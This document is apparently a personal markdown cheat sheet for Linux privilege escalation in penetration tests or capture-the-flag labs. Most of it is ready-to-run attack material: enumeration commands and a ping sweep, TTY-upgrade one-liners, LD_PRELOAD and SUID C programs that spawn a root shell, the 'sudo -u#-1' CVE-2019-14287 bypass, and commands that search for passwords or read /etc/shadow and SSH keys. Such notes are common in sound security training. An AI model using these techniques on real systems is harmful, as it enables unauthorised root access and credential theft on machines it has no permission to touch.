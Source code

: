   
# Enum  
## Quick Enum
    hostname; ip addr;    
    whoami; id   
    uname -r   
    cat /etc/passwd | grep /bin/bash   
    ls -l /etc/shadow   
    sudo -l  
    ps -aux | grep root 
    
    netstat -antp; arp -a 
    for x in {1 .. 254};do (ping -c 1 l.l.l.$x | grep "bytes from" &); done | cut -d " " 
    cat /etc/hosts 
## Scripts
run [lse.sh](https://github.com/diego-treitos/linux-smart-enumeration) with increasing run levels, [linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), [linenum](https://github.com/rebootuser/LinEnum) 
## Checklists / What to look for
[gtfobins](https://gtfobins.github.io/) 
- [ ] Fully functional tty? 
- [ ] su root? (no password, root, password) 
- [ ] Sudo binaries or exploits? (sudo -l, cat /etc/sudoers - check gtfobins)
- [ ] Exploitable cronjobs? 
- [ ] Weird SUID binaries?   
- [ ] Services running as root?, services only available to localhost?
- [ ] Passwords / config files?  
- [ ] Is the kernel vulnerable? (last resort) 

[g0tm1lk checklist](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/) 
[Linux Priv Esc Checklist](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)  
[Tiberius Linux Privilige Escalation](

# Exploits
## Upgrade to a fully functional TTY 
    python -c 'import pty;pty.spawn("/bin/bash")' 
    echo os.system('/bin/bash') 
    /bin/sh -i 
    /bin/bash -p 
## Sudo exploits 
sudo -V 
## Sudo LD_PRELOAD 
sudo -l, see env_keep+=LD_PRELOAD 

    #include <stdio.h> 
    #include <sys/types.h>
    #include <stdlib.h>
    void _init(){
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
    } 
    
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c 

sudo LD_PRELOAD=/tmp/preload.so [sudo binary] 

## CVE-2019-14287 
sudo -l, see (ALL,!root) 
    sudo -u#-1 [binary escape]  
## CVE-2019-16634 
sudo su root, type password, see ******: passwd feedback enabled 
[proof of concept](https://github.com/saleemrashid/sudo-cve-2019-18634) 
## CVE-2021-3156 - Baron Samedit 
[proof of concept](https://github.com/stong/CVE-2021-3156) 
## Cronjobs    
look for scripts you can write to or exploit  

    cat /etc/crontab  
    crontab -l    
    ls -al /etc/cron* 
## SUID Binaries
    find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \;  2>/dev/null                                 
### Custom Executable
    int main(){
        setuid(0);
        system("/bin/bash -p");
    }
## Services Running as Root / Services Only Running Locally
    ps -aux | grep root
    mysql running as root [exploit](https://www.exploit-db.com/exploits/1518)  
    ftp, telnet - tcpdump to sniff creds??
## Passwords / config files 
    find . -type f -exec grep -i -I "PASSWORD=" {} /dev/null \; 
    /etc/passwd, /etc/shadow, /etc/sudoers  read or write?? 
    cat ~/.ssh  
## Kernel Exploits 
    uname -a  
    cat /etc/*-release
No compilers on host: use gcc-multilib -m32 (32 bit OS) or -m64 (64 bit OS) then upload 
# File Transfer 
    which nmap aws nc ncat netcat nc.traditional wget curl ping gcc g++ make gdb base64 socat python python2 python3 python2.7 python2.6 python3.6 python3.7 perl php ruby xterm doas sudo fetch docker lxc ctr runc rkt kubectl 2>/dev/null 
    

# Resources
## Cheat Sheets 
[g0tmi1k Linux Priv Esc Checklist](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)  

## Learn More

